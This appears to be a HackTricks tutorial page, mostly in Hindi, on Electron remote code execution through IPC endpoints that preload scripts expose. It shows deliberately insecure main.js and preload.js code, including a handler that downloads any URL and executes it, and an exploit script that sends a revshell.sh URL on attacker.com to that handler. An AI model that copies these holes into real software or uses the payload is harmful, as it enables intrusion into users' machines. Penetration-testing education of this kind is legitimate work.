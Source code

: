 # Electron contextIsolation RCE via IPC

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

यदि preload स्क्रिप्ट main.js फ़ाइल से एक IPC एंडपॉइंट को उजागर करती है, तो रेंडर प्रक्रिया इसे एक्सेस कर सकेगी और यदि यह कमजोर है, तो RCE संभव हो सकता है।

**इनमें से अधिकांश उदाहरण यहाँ से लिए गए थे** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo)। आगे की जानकारी के लिए वीडियो देखें।

## Example 0

[https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) से उदाहरण (आपके पास MS Teams के XSS से RCE तक के दुरुपयोग का पूरा उदाहरण है, यह सिर्फ एक बहुत बुनियादी उदाहरण है):

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

चेक करें कि `main.js` `getUpdate` पर कैसे सुनता है और **किसी भी URL** को **डाउनलोड और निष्पादित** करेगा।\
यह भी चेक करें कि `preload.js` **मुख्य से किसी भी IPC** इवेंट को कैसे **उजागर** करता है।
```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
console.log('getUpdate: ' + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
});

mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
console.log('downloads path=' + app.getPath('downloads'))
console.log('mainWindow.download_url=' + mainWindow.download_url);
url_parts = mainWindow.download_url.split('/')
filename = url_parts[url_parts.length-1]
mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
console.log('downloadPath=' + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on('updated', (event, state) => {
if (state === 'interrupted') {
console.log('Download is interrupted but can be resumed')
}
else if (state === 'progressing') {
if (item.isPaused()) console.log('Download is paused')
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once('done', (event, state) => {
if (state === 'completed') {
console.log('Download successful, running update')
fs.chmodSync(mainWindow.downloadPath, 0755);
var child = require('child_process').execFile;
child(mainWindow.downloadPath, function(err, data) {
if (err) { console.error(err); return; }
console.log(data.toString());
});
}
else console.log(`Download failed: ${state}`)
})
})
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
शोषण:
```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```
## Example 2

यदि प्रीलोड स्क्रिप्ट सीधे रेंडरर को `shell.openExternal` कॉल करने का एक तरीका प्रदान करती है, तो RCE प्राप्त करना संभव है।
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url);
};
```
## Example 3

यदि प्रीलोड स्क्रिप्ट मुख्य प्रक्रिया के साथ पूरी तरह से संवाद करने के तरीके प्रदान करती है, तो एक XSS किसी भी घटना को भेजने में सक्षम होगा। इसका प्रभाव इस बात पर निर्भर करता है कि मुख्य प्रक्रिया IPC के संदर्भ में क्या प्रदान करती है।
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

